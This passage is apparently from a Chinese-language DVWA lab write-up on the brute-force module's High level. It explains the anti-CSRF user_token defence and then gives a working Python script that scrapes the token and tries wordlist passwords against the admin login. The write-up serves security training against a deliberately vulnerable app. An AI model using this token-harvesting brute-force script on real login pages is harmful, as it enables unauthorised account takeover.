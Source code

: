 ```php
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
High级别的代码加入了 Token,可以抵御 CSRF 攻击,同时也增加了爆破的难度,通过抓包,可以看到,登录验证时提交了四个参数:username、password、Login 以及 user_token.

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值,用户每次登录时都要将 user_token 一起提交.服务器收到请求后,会优先做 token 的检查,再进行 sql 查询.
![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa10.png)

同时,High 级别的代码中,使用了 stripslashes(去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个)、 mysql_real_escape_string 对参数 username、password 进行过滤、转义,进一步抵御 sql 注入.

**使用 python 脚本爆破**

`适用于老版本 dvwa 环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("password.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值,为了方便展示,这里设置只尝试 10 次.
